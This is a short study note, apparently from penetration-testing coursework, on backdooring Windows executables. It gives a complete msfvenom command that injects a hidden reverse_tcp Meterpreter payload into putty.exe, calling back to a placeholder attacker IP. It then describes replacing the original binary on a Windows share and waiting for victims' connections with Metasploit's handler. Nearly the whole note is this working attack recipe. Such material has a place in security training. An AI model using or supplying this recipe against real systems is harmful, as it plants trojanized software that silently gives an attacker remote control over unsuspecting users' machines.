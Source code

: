 ```yaml
---
title: 4.2 Backdooring .exe Files
updated: 2023-04-23T19:14:45.0000000+04:00
created: 2023-04-17T22:34:57.0000000+04:00
---
```


PM
Backdooring .exe Files

If the shared file is a Windows binary, say putty.exe, you can download it from the share and use msfvenom to inject a backdoor into it. The binary will still work as usual but execute an additional payload silently. To create a backdoored putty.exe, we can use the following command:

- msfvenom -a x64 --platform windows -x putty.exe -k -p windows/meterpreter/reverse_tcp lhost=\<attacker_ip\> lport=4444 -b "\x00" -f exe -o puttyX.exe

The resulting puttyX.exe will execute a reverse_tcp meterpreter payload without the user noticing it. Once the file has been generated, we can replace the executable on the windows share and wait for any connections using the exploit/multi/handler module from Metasploit.
